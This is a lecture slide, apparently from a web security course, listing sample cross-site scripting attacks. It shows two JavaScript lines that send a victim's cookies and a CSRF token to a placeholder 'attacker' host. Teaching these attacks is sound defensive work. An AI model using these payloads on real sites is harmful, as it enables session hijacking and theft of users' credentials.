

# Sample Attacks
Cookie Theft
new Image().src = 'http://attacker/?cookies=' + document.cookie;
Read/Modify page elements
CSRF tokens
var userid = document.getElementById('token').innerHTML;new Image().src = 'http://attacker/?userid=' + userid;

April 26, 2018
21